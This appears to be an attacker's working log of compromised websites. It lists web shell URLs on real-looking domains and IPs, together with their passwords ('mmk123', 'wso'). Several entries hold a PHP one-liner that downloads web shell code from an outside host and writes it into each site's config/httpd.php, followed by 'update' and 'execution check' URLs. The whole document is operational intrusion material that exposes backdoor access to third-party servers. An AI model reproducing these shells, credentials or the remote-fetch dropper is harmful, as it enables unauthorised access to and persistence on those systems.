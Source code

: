 https://www.tzsps.com/static/images/m1.php |mmk123 |  106.54.60.101
代码更新：0608 ✅
https://www.tzsps.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.tzsps.com/config/httpd.php?d=up
https://www.tzsps.com/index_bk.php |mmk123 |  106.54.60.101

http://c.fangac.cn/three/three.js-master/src/geometries/m1.php |mmk123 |  114.55.58.214 | 404

http://fangac.cn/three/three.js-master/docs/api/ar/audio/m1.php |mmk123 |  114.55.58.214
代码更新：0608 ✅
http://fangac.cn/runtime/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://fangac.cn/config/httpd.php?d=up

http://lybt.fangac.cn/core/cache/m1.php |mmk123 |  114.55.58.214
代码更新：0608 ✅
http://lybt.fangac.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://lybt.fangac.cn/config/httpd.php?d=up
https://lybt.fangac.cn/index_bk.php |mmk123 |  114.55.58.214

https://huace.darexian.com/static/backup/sql/m1.php |mmk123 |  8.134.216.133
代码更新：0608 ✅
https://huace.darexian.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://huace.darexian.com/config/httpd.php?d=up
https://huace.darexian.com/index_bk.php |mmk123 |  8.134.216.133

https://www.1000ma.net/static/backup/sql/m1.php |mmk123 |  120.77.152.51
代码更新：0608 ✅
https://www.1000ma.net/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.1000ma.net/config/httpd.php?d=up

https://120.77.152.51/index_bk.php |mmk123 | 连接不上
https://zz.oumaikeji.com/template/default/wap/m1.php |mmk123 |  120.79.214.114
https://zz.oumaikeji.com/index_bk.php |mmk123 |  120.79.214.114
https://gxzhiyin.cn/skin/fonts/m1.php |mmk123 |  162.14.103.225
https://gxzhiyin.cn/index_bk.php |mmk123 |  162.14.103.225
https://yearstar.odeo.cn/index_bk.php#-big |wso |  219.234.30.92
https://www.nbtongpin.com/template/default/defaults.php-big |wso |  182.92.1.131
https://82.156.191.113/template/default/m1.php |mmk123 
https://82.156.191.113/index_bk.php |mmk123 

